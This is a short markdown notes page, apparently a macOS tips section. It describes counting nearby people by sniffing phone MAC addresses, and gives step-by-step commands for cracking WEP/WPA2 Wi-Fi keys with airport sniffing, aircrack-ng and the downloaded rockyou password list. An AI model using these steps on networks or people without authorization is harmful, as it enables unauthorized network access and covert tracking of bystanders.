 ## How many people are around
Check to see [how many people are around](https://github.com/schollz/howmanypeoplearearound) by scanning nearby devices and comparing against a list of known prefixes on cell phone MAC addresses (cell phone devices around ~= people around).

## Wireless password recovery
[In-depth guide here](https://github.com/brannondorsey/wifi-cracking)

#### WEP/WPA2
Note: WPA2 will require a dictionary to crack, and it's not likely dictionaries are any good anymore except for _very_ basic or default passwords. You can get a dictionary here:

```
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

### Using Airport and Aircrack-ng

Install aircrack-ng:

```
brew install aircrack-ng
```

Create the following symlink:

```
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

ref: http://stackoverflow.com/questions/33223457/mac-osx-el-capitan-airport-sym-link-not-permitted

Figure out which channel you need to sniff:

```
sudo airport -s
```

Keep the following command running:

```
sudo airport en1 sniff [CHANNEL]
```

In a new terminal:

```
aircrack-ng -1 -a 1 -b [TARGET_MAC_ADDRESS] [CAP_FILE]
```

The cap_file will be located in the /tmp/airportSniff*.cap.
